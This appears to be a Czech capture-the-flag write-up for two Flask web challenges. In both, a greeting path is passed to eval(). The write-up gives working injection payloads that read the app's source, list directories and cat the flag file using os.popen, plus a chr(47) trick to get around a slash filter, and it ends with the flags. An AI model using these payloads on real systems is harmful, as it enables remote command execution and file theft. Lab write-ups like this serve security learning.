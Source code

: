 # Streamlining portal

## Zadání

```
Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on http://user-info.mysterious-delivery.tcc. We fear this will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!
```

## Řešení

### 1. Testy

* Stránka vypisuje `user`, což je zároveň součástí adresy vstupní stránky `http://user-info.mysterious-delivery.tcc/hello/user`
* http://user-info.mysterious-delivery.tcc/hello/test vypíše `Hello test`
* Nejedná se o SSTI (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) payloady `/{{7*7}}` a `/${7*7}` nezobrazí nic zajímavého
* `/"` - Internal Server Error (což je podezřelé)
* `/"+"a` - `Hello a`
* `/"+str(15)+"` - `Hello 15` (nejspíš se jedná o python)
* `/"+open(__file__).read()+"` - Zobrazení zdrojového kódu webové stránky:

```python
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```

### 2. Výpis vlajky

```
/"+__import__('os').popen('ls -lah').read()+"
```

```
total 28K
drw-r-xr-x 1 root root 4.0K Sep  9 09:19 .
drwxr-xr-x 1 root root 4.0K Sep  9 09:19 ..
drwxr-xr-x 1 root root 4.0K Sep 27 10:46 FLAG
drw-rw-rw- 2 root root 4.0K Sep  9 09:19 __pycache__
-rw-r-xr-x 1 root root  457 Sep  9 09:16 app.py
drwxr-xr-x 1 root root 4.0K Sep  9 09:16 templates
```

```
/"+__import__('os').popen('ls FLAG -lah').read()+"
```

```
total 16K
drwxr-xr-x 1 root root 4.0K Sep 27 10:46 .
drw-r-xr-x 1 root root 4.0K Sep  9 09:19 ..
-r--r--r-- 1 root root   26 Sep 27 10:46 flag.txt
```

```
/"+__import__('os').popen('cat FLAG/flag.txt').read()+"
```

## Vlajka

```
FLAG{OONU-Pm7V-BK3s-YftK}
```

# Streamlining portal NG

## Zadání

```
Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on http://user-info-ng.mysterious-delivery.tcc.

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!
```

## Řešení

Zobrazení zdrojového kódu stránky:

```
/"+open(__file__).read()+"`
```

```python
from flask import Flask, Blueprint, redirect, render_template, abort

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```

Drobná změna v route nám nedovolí použít znak `/`, ale ten můžeme nahradit například pomocí `chr(47)`:

```
/"+open('FLAG'+chr(47)+'flag.txt').read()+"
```

## Vlajka

```
FLAG{hvIM-3aty-R39h-dOZ4}
```